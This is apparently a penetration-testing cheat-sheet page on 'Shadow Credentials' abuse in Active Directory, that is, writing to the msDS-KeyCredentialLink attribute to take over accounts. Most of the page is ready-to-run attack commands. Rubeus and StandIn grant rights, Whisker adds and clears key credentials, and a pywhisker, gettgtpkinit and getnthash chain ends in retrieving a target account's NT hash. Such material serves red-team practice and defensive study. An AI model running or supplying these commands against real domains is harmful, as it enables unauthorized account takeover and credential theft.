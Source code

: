 # Key Credentials Abuse

> "...if you can write to the `msDS-KeyCredentialLink` property of a user, you can retrieve the NT hash of that user." (Elad Shamir, [ref](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab))

That makes `GenericWrite` on a user effectively equal to DCSync right on that user.

{% hint style="info" %}
Remember that `WriteDacl` != `GenericWrite`, so in order to modify `msDS-KeyCredentialLink`, obtain necessary privileges first. For example, using [StandIn](https://github.com/FuzzySecurity/StandIn):

```
Cmd > Rubeus.exe createnetonly /program:cmd.exe /show /ticket:tgt.kirbi
Cmd > StandIn.exe --domain megacorp.local --object "samaccountname=snovvcrash" --grant "MEGACORP\jdoe" --type GenericAll
```
{% endhint %}




## DSInternals

* [https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md)




## Whisker

* [https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
* [https://github.com/eladshamir/Whisker](https://github.com/eladshamir/Whisker)

List all the values of the the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe list /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local
```

Add a new value to the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe add /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /path:C:\Temp\cert.pfx /password:Passw0rd!
```

Remove a value from the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe remove /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /deviceid:00ff00ff-00ff-00ff-00ff-00ff00ff00ff
```

Clear all the values of the the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe clear /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local 
```




## pywhisker

* [https://github.com/ShutdownRepo/pywhisker](https://github.com/ShutdownRepo/pywhisker)
* [https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/](https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/)

```
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action add -f sqltest_cert
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action clear
$ python3 gettgtpkinit.py megacorp.local/sqltest -cert-pfx ~/tools/pywhisker/sqltest_cert.pfx -pfx-pass 3Dc3Er0rst2e9J1yRtjh sqltest.ccache
$ KRB5CCNAME=sqltest.ccache python3 getnthash.py megacorp.local/sqltest -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
```

